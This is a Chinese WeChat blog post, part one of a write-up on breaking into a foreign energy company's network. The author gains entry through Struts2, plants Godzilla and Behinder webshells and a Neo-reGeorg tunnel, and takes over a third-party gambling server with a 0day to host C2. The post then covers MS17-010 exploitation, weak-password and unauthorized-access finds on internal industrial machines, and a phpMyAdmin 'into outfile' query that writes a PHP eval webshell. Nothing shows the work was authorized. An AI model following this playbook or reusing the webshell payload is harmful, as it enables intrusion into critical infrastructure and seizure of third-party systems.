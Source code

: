 #  对某国能源打点（上）

原创 T4x0r  [ T大4的小圈圈 ](javascript:void\(0\);)

**T大4的小圈圈** ![]()

微信号 T4x0rhhhhh

功能介绍 分享web渗透实战，ctf wp等，网络安全相关的。还在成长ing

____

___发表于_

收录于合集

> 此次渗透非常感谢HashRun安全团队HashMeow小组成员协作；感谢如下师傅：闲客，伊恒，秋风，fish

  

![]()

当然，这次渗透下来的目标的网段和资产挺不错的，某国第三大能源，网段在国家骨干网络  
 **入口**  

主域名 https://www.xxxxx.com

漏洞链接

  * 

    
    
    https://vms.xxxxx.com:xxxx/xxxxxxx/xxxxxx.action

漏洞名称 Struts2

哥斯拉🐎

  * 

    
    
    https://vms.xxxxx.com:xxxx/xxxxxxx/ll.jsp

冰蝎4.0.5 Xor_base64协议  

  * 

    
    
    https://vms.xxxxxx.com:xxxxx/xxxxx/xxxxx.jsp

Neo-regeorg 隧道 密码lan

  * 

    
    
    https://vms.xxxx.com:xxx/xxxxxx/tunnel.jsp

这部分也是通过信息收集，看到.action直接st2一把梭

 **代理机部署**

因为这次行动是在疫情，xj疫情当时大家应该都知道，公司没办法给我们提供匿名服务器，所以我们只能自己打一台下来，然后部署c2

伊恒哥哥一个 **0day** 梭哈下来一台bc，拿到bc之后我们开始搭建c2以及流量代理

![]()

外加c2  

 **内网信息收集**

简单扫大概扫下

![]()

虽然有几个段重了，问题不大，我们大概看了一下 **估计**
有6个域以上，国外内网确实安全，大概最少有600台机器（保守点估计）然后发现弱口基本就在2位数，ms17010也就个位数

先把ms17010打了，发现一个坑点，msf不能打03，08并且很容易打崩，换上大佬工具，梭哈

![]()

![]()

![]()

不全部放图了，因为千篇一律，我们接下来看下域，发现都在域内  

![]()

然后大佬工具自带rdp登录模板，直接开启rdp登录

![]()

  

发现不是远程登录组，先放下  

因为入口是Linux机器，不太好当鼠标猴子，虽然有cross2加持，我们继续寻找内网中出网的机器，前面几台ms17010下来的机器进行出网探测均发现只有dns出网，然后exe丢上去稍稍有点麻烦，先放下，去看下web资产能不能getshell几个找个出网的win，毕竟内网中有几k台机器呢，总有一个出网win  

![]()

然后又发现一些未授权的

![]()

弱口  

![]()

![]()

太多了，不截图了  

发现也没啥太大用处，先放下，继续往下看，发现一个oracle

是个普通权限，我记得是可以直接弹回shell的  

![]()

ok找到一个win发现还是tm不出网，只有dns出，很麻烦，上传exe又要走出口机  

后续又发现一些弱口和未授权  

![]()

  

这些机器大多也是工业机器  

最后找到一台所有协议都出网的win  

http://10.36.32.36/?phpinfo=1进phpinfo，找到绝对路径C:wamp/www

http://10.36.32.36/phpmyadmin/未经授权进到phpmyadmin，查看权限是all

在数据表的sql直接写入

  * 

    
    
    select "<?php @eval($_POST[cc]);?>" into outfile 'C:/wamp/www/shell.php'

http://10.36.32.36/log.php成功

蚁剑挂代理验证

![]()

![]()

后续，还没在c2上上线这个win，因为我在准备期末考试，期末考完之后，我又被别人支配的去整代码审计，整完这些快过年了

下一步计划就是经行域渗透吧，整整pth，ptt，ptk等，这些，到时候再更新

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

